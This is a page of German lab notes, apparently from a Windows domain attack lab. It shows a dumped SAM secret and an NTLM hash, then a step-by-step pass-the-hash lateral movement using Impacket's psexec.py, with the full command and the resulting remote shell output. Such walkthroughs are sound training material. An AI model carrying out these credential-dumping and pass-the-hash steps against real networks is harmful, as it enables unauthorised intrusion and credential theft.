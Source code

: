 \begin{lstlisting}[language=bash]
    Domain : Client1
    SysKey : 2d102d4d76b467c3aa870e40d01a3f55
    Local SID : S-1-5-21-1681067654-3552921923-1543340101

    SAMKey : d777e5a8096311cf0c6dd57edebad324

    RID  : 000001f4 (500)
    User : lab_admin
    Hash NTLM: f6e934388fc080ee870bd0637e4992f9
    [CUT]
\end{lstlisting}

Logs anschauen, da ist vieles drin wie username, dmain, credentials, UND NTLM HASHES, die sind am wichtigsten. kann für pass the hash attacken genutzt werden



\subsection{Step 5A: Lateral Movement to FS1 via Domain User}
In den vorangegangenen Übungen konnten wir uns lokale Administratorrechte auf dem Windows 10-Client verschaffen und anschließend alle auf diesem Rechner gespeicherten Anmeldeinformationen auslesen. Die gesammelten Daten enthielten unter anderem den NTLM-Hash des Domänenbenutzers "aalfort", der lokaler Administrator auf dem Rechner FS1.winattacklab.local ist.

Diese Konstellation kann nun missbraucht werden, um mit einer Technik namens "pass-the-hash" seitlich auf FS1.winattacklab.local zu gelangen.\\

$\rightarrow$ Python Script für pass the hash attacken: \lstinline|psexec.py|\\

\begin{enumerate}
    \item psexec.py - python zum NTLM Hash probieren
    \item \textbf{psexec.py  -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101}\\
\end{enumerate}

\begin{lstlisting}[language=PowerShell]
    Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.0.1.101.....
    [*] Found writable share ADMIN$
    [*] Uploading file LZzQLrwi.exe
    [*] Opening SVCManager on 10.0.1.101.....
    [*] Creating service HIbO on 10.0.1.101.....
    [*] Starting service HIbO.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1397]
\end{lstlisting}

